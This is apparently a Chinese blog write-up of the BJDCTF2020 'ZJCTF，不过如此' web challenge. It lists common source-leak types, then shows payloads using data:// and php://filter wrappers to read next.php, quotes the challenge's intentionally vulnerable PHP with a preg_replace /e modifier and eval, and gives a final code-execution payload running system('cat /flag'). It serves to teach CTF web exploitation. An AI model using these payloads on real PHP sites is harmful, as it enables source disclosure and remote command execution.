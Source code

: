 **常见的Web源码泄露：**

- • git源码泄露
- • svn源码泄露
- • DS_Store 文件泄露
- • 网站备份压缩文件泄露
- • Web-INF/Web.xml 泄露
- • CVS泄露
- • hg源码泄漏
- • Bazaar/bzr泄露
- • SWP 文件泄露

很纠结要不要复习一遍web入门的基础题目 还是直接开始综合题 之前的基础部分都差不多快要忘记了

## [BJDCTF2020] ZJCTF，不过如此

![image-20241129224416484](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241129224418213-261306008.png)

file_get_contents 伪协议

题目要求读字符串 data伪协议读数据流

复习一下data协议

```
data:[<mime type>][;charset=<charset>][;base64],<encoded data>
```

data协议头 mime类型 有text/plain image/jpeg  第三部分是编码 charset=US-ASCII 后面的base64可加不加 data作为文本传参 

include 文件包含

题目提示读本地文件 php伪协议

php://filter用于读取源码：
php://input用于执行php代码

// ?text=data://text/pain,I have a dream&file=php://filter/convert.base64-encode/resource=next.php

解码源码

![image-20241129225723785](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241129225725309-1782004867.png)

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}

foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

如果参数过了正则匹配 当传参过后把re参数的值变为str的值 这个str的值是getflag  然后会把参数分次交给complex参数运行 cmd作为参数get—flag 

存在 /e修正符 preg_replace函数会将第二个参数当作php语句来执行  \\\1 后向引用  这里的后向引用要使用双引号 因为双引号内的函数不会被执行和替换 这个\\本身在php中指的是第一个子匹配项 也就是 ${phpinfo()} 这样会执行这个函数 

\S 匹配非空字符 

这样子就相当于是 带入了preg_replace里面执行re=str这个值 

```
preg_replace('/(' . $re . ')/ei','strtolower("\\1")',$str);		// 原句

preg_replace('/(' .* ')/ei','strtolower("\\1")',{${phpinfo()}});	// 输入后
```

但这个.在这题里面是非法字符 要换成\s 编程匹配非空字符 这个\\1本身函数中会匹配两次 所以要两个{}

```php
{{$getFlag()}}  

payload

// next.php?\S*=${getflag()}&cmd=system('cat /flag');


```

![image-20241129233307591](https://img2023.cnblogs.com/blog/2759911/202411/2759911-20241129233315140-1146456441.png)

